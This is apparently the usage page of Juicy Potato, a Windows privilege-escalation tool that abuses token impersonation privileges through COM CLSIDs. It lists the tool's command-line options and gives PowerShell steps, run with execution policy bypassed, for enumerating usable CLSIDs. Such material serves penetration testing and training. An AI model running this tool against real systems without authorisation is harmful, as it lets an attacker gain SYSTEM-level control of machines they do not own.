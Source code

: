 # Juicy Potato (abusing the golden privileges)

## usage

```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

## Checking CLSIDs
### run first
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\Join-Object.ps1"
```
### get list CLSIDs
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\GetCLSID.ps1"
```
### checking CLSIDs
```
.\get.bat
```

















